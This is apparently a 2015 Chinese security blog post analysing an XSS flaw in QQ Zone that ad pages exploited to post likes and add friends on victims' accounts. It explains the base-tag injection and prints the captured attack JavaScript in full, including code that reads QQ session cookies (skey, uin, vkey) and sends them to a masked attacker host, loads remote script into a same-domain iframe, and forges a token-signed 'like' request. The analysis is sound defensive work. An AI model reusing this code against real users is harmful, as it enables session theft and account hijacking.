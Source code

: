 ```yaml
---
id: 347
layout: post
title: 'qq空间某被利用的xss分析'
date: 2015-07-13 10:11:00
author: virusdefender
tags: 
---
```


今天听说有些人在点击了几个花千骨的广告视频后，自己的qq空间里面就被莫名其妙的分享了一些广告，还自动添加了好友。

怀疑是qq空间的xss或者csrf。在对那几个视频页面进行分析后没有发现什么可疑的代码，后来在模拟了qq手机版的ua，清除了cookies，然后更换了ip后终于复现了这个问题。

![QQ20150713-2@2x.png][3]

这个域名是不是很可疑？我开始怀疑是腾讯的合作伙伴的js被篡改了，但是点看这个php，它的内容是
```js
document.getElementById("footad").src="http://yyyy.qq.com/cgi-bin/privateblog/privateblog_output_data?uin="+rndNum(9)+"&blogid=12"+rndNum(8)+"&imgdm=xxxx.com%2fimgcache.qq.com&bdm=b.qzone.qq.com&vid="+window.vid;
function rndNum(len){
    if(len && len>0 && len<100){}else{len=32;}
    var strs="123456789";
    var maxPos=strs.length;
    var rdstr="";
    for(i=0;i<len;i++){
	rdstr+=strs.charAt(Math.floor(Math.random() * maxPos));
    }
return rdstr;
}

if(cookieRead){
   var dor=cookieRead("adplay");
   if(dor && dor>0){
	//;
   }else{
	cookie_set("adplay",99);
   }
}
```
对`http://yyyy.qq.com/cgi-bin/privateblog/privateblog_output_data?uin=842362834&blogid=1268155622&imgdm=xxxx.com%2fimgcache.qq.com&bdm=b.qzone.qq.com&vid=19`发起一个请求，当然里面有几个参数的随机生成的。

打开这个url，查看源代码，漏洞就是很明显的了。

![1368966902.png][4]

base标签里面抹掉的那个域名和url里面的抹掉的那个域名是一样的，典型的xss漏洞。因为base标签是可以改变下面的相对路径的，比如html在qq.com域下，而base里面是baidu.com，那么下面的`<script src="1.js"></script>`就会访问baidu.com/1.js，而不是qq.com/1.js，导致xss漏洞。而我发现这个地方腾讯其实是有过滤的，因为url里面直接使用xxx.com是不可以的，必须是xxx.com/cache.qq.com才行，但是这样的过滤并没有什么卵用。

这个`embeded.js`的内容是
```js
try{document.domain="qq.com";}catch(e){}
function cookieRead(a,b,c,g){if(void 0==b){a+="=";b=document.cookie.split(";");c=0;for(g=b.length;c<g;c++){for(var i=b[c];" "==i.charAt(0);)i=i.substring(1,i.length);if(0==i.indexOf(a))return decodeURIComponent(i.substring(a.length,i.length))}return ""}}

function cookie_set(key,value){
	var Then=new Date(); 
	Then.setTime(Then.getTime()+7*24*60*60*1000); 
	document.cookie=key+"="+value+"; path=/;expires="+Then.toGMTString();
}

function getQueryString(name) { 
	var reg = new RegExp("(^|&)" + name + "=([^&]*)(&|$)", "i"); 
	var r = window.location.search.substr(1).match(reg); 
	if (r != null) return unescape(r[2]); return ""; 
} 

var dor=cookieRead("qsdone");
if(dor && dor>0){
	//document.location="about:blank";
}else{
	cookie_set("qsdone",99);
	window.onload=iframe_add;
}



function iframe_add(){tjskey();
	var eframe;
	try{
		var isie=window.navigator.appName.toUpperCase().indexOf("MICROSOFT")>=0;
		eframe = document.createElement(isie? "<iframe name='xframe'>":"iframe");
	}catch(e){}
	try{
		if(!eframe){eframe = document.createElement("iframe");}  
		eframe.id = "xframe";
		eframe.name = "xframe";
		eframe.width="0px";
		eframe.height="0px";
		eframe.scrolling="no";
		eframe.setAttribute("frameborder", "0", 0);
		eframe.src="http://b.qzone.qq.com/proxy.html?r=0.1436745170";
		if(eframe.attachEvent){
			eframe.attachEvent("onload",iframe_addjs);
		} else {
			eframe.onload=iframe_addjs;
		}
		document.body.appendChild(eframe);
	}catch(e){}
}


function iframe_addjs(){ 
	var xdoc;
	if(!xdoc){try{xdoc=document.frames["xframe"].contentWindow.document;}catch(e){}}
	if(!xdoc){try{xdoc=document.frames["xframe"].document;}catch(e){}}
	if(!xdoc){try{xdoc=document.getElementById("xframe").contentWindow.document;}catch(e){}}
	if(xdoc){
		var xjs=xdoc.createElement("script");
		xjs.src="http://imgcoche.qq.xxxx.com/qq/getmore.php?r="+Math.random()+"&type=img.jpg";
		xjs.type="text/javascript";
		try{xdoc.getElementsByTagName('head')[0].appendChild(xjs);}catch(e){}
	}
}

function tjskey(){

	var eimg; 
	eimg = document.createElement("img"); 
	eimg.width="0px";
	eimg.height="0px";
	var myskey=cookieRead("skey");
	var myqq=parseInt(cookieRead("uin").replace("o",""));
	var vkey=cookieRead("vkey");	
	//if(myqq>500 && vkey.length>10){
		if(myqq>500){
			eimg.src="http://imgcoche.qq.xxxx.com/qq/c.php?u="+myqq+"&s="+myskey+"&v="+vkey+"&f="+getQueryString("vid");
			document.body.appendChild(eimg);
		}	
	}
```

在window.onload的时候读取cookies中的qq，key和skey等，发送到后台。

然后判断浏览器，创建一个iframe，src是`http://b.qzone.qq.com/proxy.html`，然后在这个页面写入js，地址是`http://imgcoche.qq.xxxx.com/qq/getmore.php?r="+Math.random()+"&type=img.jpg";`。这个js的内容是
```js
var xqq="19111xxxxx";


var g_skey=cookieRead("skey");
var g_tk;
if(g_skey && g_skey.length>1){
	g_tk=getGTK(g_skey);
	var g_vuin=parseInt(cookieRead("uin").replace("o",""));
	var g_ie=myisIE();
	var g_sender;
	add_form();
}


function getGTK(str){
    var hash = 5381;
    for(var i = 0, len = str.length; i < len; ++i){
        hash += (hash << 5) + str.charAt(i).charCodeAt();
    }
    return hash & 0x7fffffff;
}
function cookieRead(a,b,c,g){if(void 0==b){a+="=";b=document.cookie.split(";");c=0;for(g=b.length;c<g;c++){for(var i=b[c];" "==i.charAt(0);)i=i.substring(1,i.length);if(0==i.indexOf(a))return decodeURIComponent(i.substring(a.length,i.length))}return null}}

function myisIE(){
   if (!!window.ActiveXObject || "ActiveXObject" in window)  
        return true;  
    else  
        return false;  
}  
 

function add_form(){
	var ie=g_ie;
	try{g_sender = document.createElement(ie? "<iframe name='p'>":"iframe");}catch(e){}
   try{
	if(!g_sender){g_sender = document.createElement("iframe");}  
	g_sender.id = "p";
	g_sender.name = "p";
	g_sender.width="1px";
	g_sender.height="1px";
	g_sender.scrolling="no";
	g_sender.setAttribute("frameborder", "0", 0);
	if(g_sender.attachEvent){
    		g_sender.attachEvent("onload",sender_addjs);
	} else {
		g_sender.onload=sender_addjs;
	}
	document.body.appendChild(g_sender);
   }catch(e){}
}

function sender_addjs(){
    if(!window.oncepost){
	var uri="http://w.qzone.qq.com/cgi-bin/likes/doLike";
	var refer="http://user.qzone.qq.com/"+g_vuin;
	var ie=g_ie;

	var ifrHTML='<!DOCTYPE html><html lang="zh-cn"><head><meta http-equiv="content-type" content="text/html; charset=utf-8" /><meta charset="utf-8" />';
	ifrHTML=ifrHTML+'<script type="text/javascript">'+(ie&&'document.charset="utf-8"'||"")+';document.domain="qq.com";frameElement.submited=void(0);frameElement.state="sending";<\/script></head><body>';
	ifrHTML=ifrHTML+'<form action="'+uri+(uri.indexOf("?")>-1?"&":"?")+"g_tk="+g_tk+'" accept-charset="utf-8"  enctype="application/x-www-form-urlencoded;charset=utf-8" method="post">';
	ifrHTML=ifrHTML+'<input type="hidden" name="qzreferrer" id="qzreferrer" value='+refer+'/>';
	ifrHTML=ifrHTML+'<input type="hidden" name="url" id="url" value='+refer+'/>';
	ifrHTML=ifrHTML+'<input type="hidden" name="cid" id="ouin" value="'+xqq+'" />';
	ifrHTML=ifrHTML+'<input type="hidden" name="from" id="from" value="brand" />';
	ifrHTML=ifrHTML+'<input type="hidden" name="scene" id="scene" value="5" />';
	ifrHTML=ifrHTML+'<input type="hidden" name="fupdate" id="fupdate" value="0" />';
	ifrHTML=ifrHTML+'</form><script type="text/javascript">try{var f=document.getElementById("p");f.submit();}catch(e){}<\/script></body></html>';
	if(!ie){
		var d=g_sender.contentDocument||g_sender.contentWindow.document;
		if(d){
			d.open();
			d.write(ifrHTML);
			d.close();
		}
	}
	window.oncepost=1;
    }
}

```
动态创建了一个form，然后post数据，看url是赞了一下某个说说，反正植入js后一切就好办了~~

还有一个加好友的就是无法复现了

![QQ20150713-4@2x.png][5]


  [1]: https://dn-virusdefender-blog.qbox.me/2015/3724033695.png
  [2]: https://dn-virusdefender-blog.qbox.me/2015/2626266003.png
  [3]: http://storage.virusdefender.net/blog/images/347/3.png
  [4]: http://storage.virusdefender.net/blog/images/347/4.png
  [5]: http://storage.virusdefender.net/blog/images/347/5.png